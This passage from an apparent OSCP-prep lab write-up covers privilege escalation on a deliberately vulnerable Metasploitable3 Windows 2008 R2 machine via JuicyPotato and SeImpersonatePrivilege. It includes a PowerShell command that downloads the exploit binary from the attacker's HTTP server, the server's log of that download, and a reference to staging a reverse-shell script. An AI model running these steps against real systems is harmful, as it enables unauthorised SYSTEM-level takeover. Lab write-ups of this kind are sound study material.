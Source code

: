 Here, the only interesting group we are currently part of is `NT AUTHORITY\SERVICE` because that group, in combination with the `SeImpersonatePrivilege`, and the fact that this server's operating system is `Windows Server 2008 R2` can be abused to gain `SYSTEM` level access to the machine via the [JuicyPotato](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato) exploit.

I went ahead and downloaded the JuicyPotato exploit code from [GitHub](https://github.com/ohpe/juicy-potato) and compiled it on my windows development machine with [Visual Studio](https://visualstudio.microsoft.com/):

![](/assets/images/oscp-prep/metasploitable3-win2k8/metasploitable3-build-juicy-potato.PNG)

After transferring the JuicyPotato exploit to my kali machine, I hosted the exploit on an HTTP server so I could get the metasploitable3 machine to download it.

On the metasploitable3 machine, I used powershell to download the exploit hosted on my kali machine:

```powershell
(New-Object System.Net.WebClient).DownloadFile("http://172.28.128.1:8000/JuicyPotato.exe","C:\Windows\Temp\r0kit\JuicyPotato.exe")
```

```
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.28.128.4 - - [02/Sep/2020 13:04:42] "GET /JuicyPotato.exe HTTP/1.1" 200 -
```

Then, I copied the `Invoke-PowerShellTcp.ps1` script from the default directory where it was originally uploaded via the meterpreter session to the current working directory JuicyPotato.exe was located at. This was a minor, but important detail that was necessary to get the privilege escalation exploit to work.
